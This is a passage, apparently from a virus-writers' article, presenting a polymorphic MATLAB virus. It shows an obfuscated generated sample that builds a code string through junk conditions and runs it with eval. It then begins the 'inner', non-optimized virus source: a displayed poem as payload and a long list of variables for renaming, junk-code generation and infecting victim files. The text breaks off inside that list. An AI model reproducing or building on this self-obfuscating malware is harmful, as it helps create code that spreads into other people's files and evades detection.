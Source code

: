 bioedljnxgc=[19.1456 154.373 550.3393 386.4591 74.9299 433.2155 657.2817 360.3325 80.6204 469.419 577.6641 591.6505 405.9973 87.3452 155.5388 612.3285 351.4347 88.8916 650.1925 593.7005 319.7993 413.1606 141.0425 396.072 367.8441 156.8655 657.5278 668.102 699.0955 459.2855 116.6208 422.9965];
if(jchguyilotxgcjo<quad(@(wci)(wci+sin(wci)).*exp((wci.*(wci+wci))),-0.91002,pi,1e-7))
auxbgkuigfoauewl=[auxbgkuigfoauewl 'er'];
else
    auxbgkuigfoauewl=['lo VX' auxbgkuigfoauewl];end
disp('4')
if(interp1(bioedljnxgc,4.4571)<245.087)
    auxbgkuigfoauewl=[auxbgkuigfoauewl cfyoyytfxpldbtdpb];
else     ewcyndekikik='s!'');';
end

a=['a' 'b' 'asd'    'c' 'd'];

if (1)
    while(3<2)
        disp('!');
    end
    for i=0:100
        fprintf(num2str(i));
    end
    disp('!!!')
end
eval(auxbgkuigfoauewl);
        
disp('5')
disp('6')
- - - - - - - - - - - - - 








  4) Inner Code

     The virus is optimized, thus hardly readable. So here the inner, non-
     optimized version of it. It still contains some debug-output, but all in
     all its the same as the original virus.

- - - - - - - - - - - - - 
warning off all

MyCode='disp(''Bedecke deinen Himmel, Zeus, Mit Wolkendunst, Und übe, dem Knaben gleich, Der Disteln köpft, An Eichen dich und Bergeshöhn; Müßt mir meine Erde Doch lassen stehn, Und meine Hütte, die du nicht gebaut, Und meinen Herd Um dessen Gluth Du mich beneidest.'');';
ChangeNumber=1*length(MyCode); % Can be included to the code directly
MyCode=[MyCode,' '];
VarList2Change={'MyCode' 'TmpRndName' 'ThisVarContainsVirus'  'VarList2Change' 'ChangeNumber' 'FfAll' 'DfAll' 'SplitOffset' 'CodePart' 'Rnames' 'NewCode' 'TrashNames' 'TrashLine' 'SplitSize' 'QuoteSign' 'CreateTrashA' 'CreateTrashB' 'CreateTrashC' 'CreateTrashD' 'CreateTrash1' 'CreateTrash2' 'ODEfile' 'odefunction' 'RandPermSS' 'AlgoMatrix' 'ViralBodyVariable' 'ActualCodeForThisPart' 'Var2Wrt' 'ObfusCount' 'RandomAppearenceOfIfs' 'LineBreaksIf' 'LineShift' 'runcode' 'RandNameCol' 'CODE' 'TRASH' 'WhichMathAlgo' 'FReplacePool1' 'StartFunction' 'SReplacePool1' 'OReplacePool1' 'MatSizeN' 'SomeMatVec' 'MultFct' 'SpecMatName' 'SpecVecName' 'WhichMatrixAlgo' 'MatArOp' 'VecArOp' 'SavedVector' 'IsItAVector' 'Operator1' 'Operator2' 'BoundAll1' 'BoundAll2' 'BoundAll3' 'BoundTmpA' 'BoundTmpB' 'BoundSign' 'FctString1' 'FctString2' 'FctString3' 'IntTolerance' 'TimeMeasure' 'CompleteCompString' 'CompleteErg' 'InterpDataVec' 'InterpSpline' 'ODEIntervallA' 'ODEIntervallB' 'ODEDomain' 'ODEIntX' 'SReplacePool2' 'RCWriteVar' 'RCNumSub' 'RCNumAdd' 'MulFacRC' 'IncFa' 'RC' 'RCsSub' 'RCsAdd' 'VirCode' 'IsAllEmpty' 'VicFiles' 'VicLines' 'NewInfCode' 'VicIDr' 'IsAPO' 'EndArray' 'EndCount' 'GoodLine' 'IsAPP' 'IsStart' 'IsEnd' 'VCsplitted' 'VirSplit' 'VicIDw' 'Count000' 'Count001' 'Count002' 'Count003' 'Count004' 'Count005' 'Count006' 'Count007' 'Count008' 'Count009' 'Count010' 'Count011' 'Count012' 'Count013' 'Count014' 'Count015' 'Count016' 'Count017' 'Count018' 'Count019' 'Count020' 'Count021' 'Count022' 'Count023' 'Count024' 'Count025' 'Count026' 'Count027' 'Count028' 'Count029' 'Count030' 'Count031' 'Count032' 'Count033' 'TmpVar001' 'TmpVar002' 'TmpVar003' 'TmpVar004' 'TmpVar005' 'TmpVar006' 'TmpVar007' 'TmpVar008'};